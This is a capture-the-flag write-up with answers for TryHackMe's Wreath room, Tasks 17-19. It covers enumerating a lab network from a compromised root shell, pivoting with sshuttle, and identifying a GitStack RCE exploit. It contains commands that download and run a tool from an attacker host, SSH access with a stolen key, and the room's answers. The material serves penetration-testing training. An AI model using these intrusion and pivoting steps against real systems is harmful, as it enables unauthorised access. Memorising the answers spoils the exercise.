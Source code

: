 # TryHackMe [Wreath](https://www.tryhackme.com/room/wreath) Task 17-19
### References
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 17: Git Server - Enumeration [YouTube Video]. In YouTube. https://youtu.be/Q5b60n-jkf0
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 18: Git Server - Pivoting [YouTube Video]. In YouTube. https://youtu.be/D2wSFFrpPQA
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 19: Git Server - Code Review [YouTube Video]. In YouTube. https://youtu.be/vnwUTeIXbxM
## Task 17: Enumeration
### Excluding the out of scope hosts, and the current host (`.200`), how many hosts were discovered active on the network?
```
ssh -i ../Task6/id_rsa root@10.200.100.200
[root@prod-serv ~]# wget http://10.50.101.82/nmap-AppleGamer22
-bash: wget: command not found
[root@prod-serv ~]# curl 10.50.101.82/nmap-AppleGamer22 -o ./nmap-AppleGamer22 && chmod +x nmap-AppleGamer22
[root@prod-serv ~]# mv /tmp/nmap-AppleGamer22 .
[root@prod-serv ~]# ./nmap-AppleGamer22 -sn 10.200.100.200/24
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-22 10:11 BST
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-100-1.eu-west-1.compute.internal (10.200.100.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.15s latency).
MAC Address: 02:D2:70:A5:7E:E7 (Unknown)
Nmap scan report for ip-10-200-100-100.eu-west-1.compute.internal (10.200.100.100)
Host is up (0.00023s latency).
MAC Address: 02:18:FF:2F:29:A7 (Unknown)
Nmap scan report for ip-10-200-100-150.eu-west-1.compute.internal (10.200.100.150)
Host is up (0.00024s latency).
MAC Address: 02:45:52:53:90:C3 (Unknown)
Nmap scan report for ip-10-200-100-250.eu-west-1.compute.internal (10.200.100.250)
Host is up (0.00021s latency).
MAC Address: 02:7F:CE:B5:83:49 (Unknown)
Nmap scan report for ip-10-200-100-200.eu-west-1.compute.internal (10.200.100.200)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 4.76 seconds
```
**Answer**: `2`
### In ascending order, what are the last octets of these host IPv4 addresses?
**Answer**: `100,150`
### Scan the hosts -- which one does not return a status of "filtered" for every port (submit the last octet only)?
```
[root@prod-serv ~]# ./nmap-AppleGamer22 10.200.100.100 10.200.100.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-22 10:18 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-100-100.eu-west-1.compute.internal (10.200.100.100)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
All 6150 scanned ports on ip-10-200-100-100.eu-west-1.compute.internal (10.200.100.100) are filtered
MAC Address: 02:18:FF:2F:29:A7 (Unknown)

Nmap scan report for ip-10-200-100-150.eu-west-1.compute.internal (10.200.100.150)
Host is up (0.00032s latency).
Not shown: 6146 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
5985/tcp open  wsman
MAC Address: 02:45:52:53:90:C3 (Unknown)

Nmap done: 2 IP addresses (2 hosts up) scanned in 61.86 seconds
```
**Answer**: `150`
### Which TCP ports (in ascending order, comma separated) below port 15000, are open on the remaining target?
* *Hint*: Scan the first 15000 ports. In some instances port 5357 will also show as being open. If this is the case, please disregard it and use the other three.
**Answer**: `80,3389,5985`
### Assuming that the service guesses made by Nmap are accurate, which of the found services is more likely to contain an exploitable vulnerability?
**Answer**: `http`
## Task 18: Pivoting
### What is the name of the program running the service?
* `curl curl 10.200.100.150` returns an HTML page with `gitstack`
**Answer**: `gitstack`
### Do these default credentials work (Aye/Nay)?
![gitstack login page](https://assets.tryhackme.com/additional/wreath-network/409f76a17496.png)
1. Run `sudo sshuttle -r root@10.200.100.200 --ssh-cmd "ssh -i ../Task6/id_rsa" 10.200.100.0/24 -x 10.200.100.200` to connect to the target's HTTP port.
2. Go to `http://10.200.100.150/gitstack/` on your browser.

**Answer**: `Nay`
### What is the EDB ID number of Python RCE exploit for version 2.3.10 of GitStack?
* According to https://www.exploit-db.com/exploits/43777.

**Answer**: `43777`
## Task 19: Code Review
### Look at the information at the top of the script. On what date was this exploit written?
**Answer**: `18.01.2018`
### Is the exploit script written in Python2 or Python3?
**Answer**: `Python2`
### What is the name of the cookie set in the POST request made on line 74 (line 73 if you didn't add the shebang) of the exploit?
**Answer**: `csrftoken`
